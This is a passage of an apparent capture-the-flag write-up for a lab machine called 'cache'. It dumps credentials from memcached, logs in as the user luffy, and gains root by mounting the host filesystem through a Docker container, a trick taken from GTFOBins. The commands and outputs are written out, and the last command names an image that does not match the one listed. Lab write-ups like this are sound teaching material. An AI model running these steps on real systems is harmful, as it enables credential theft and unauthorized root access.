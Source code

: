 	  stats slabs
	  STAT active_slabs 1

	  stats cachedump 1 0
	  ITEM user [5 b; 0 s]
	  ITEM passwd [9 b; 0 s]

	  get user
	  VALUE user 0 5
	  luffy
	  END

	  get passwd
	  VALUE passwd 0 9
	  0n3_p1ec3
	  END

### creds

`luffy:0n3_p1ec3`
```
ash@cache:~$ su - luffy
Password: 0n3_p1ec3
luffy@cache:~$
```

### Enumeration luffy

* checking user luffy groups

	  luffy@cache:~$ id
	  uid=1001(luffy) gid=1001(luffy) groups=1001(luffy),999(docker)

* checking if there is any running container, There are not containers currently running

	  luffy@cache:~$ docker ps
	  CONTAINER ID        IMAGE               COMMAND             CREATED             STATUS              PORTS               NAMES

* cheacking if There is any docker image

	  luffy@cache:~$ docker image ls
	  REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
	  ubuntu              latest              2ca708c1c9cc        7 months ago        64.2MB

# Root Privesc

* found docker shell at [GTFO Bins](https://gtfobins.github.io/gtfobins/docker/)
* it can be used to break out from restricted environments by spawning an interactive system shell. The resulting is a root shell.

	  docker run -v /:/mnt --rm -it alpine chroot /mnt bash

* in my case cache have ubuntu docker image

	  docker run -v /:/mnt --rm -it docker chroot /mnt bash
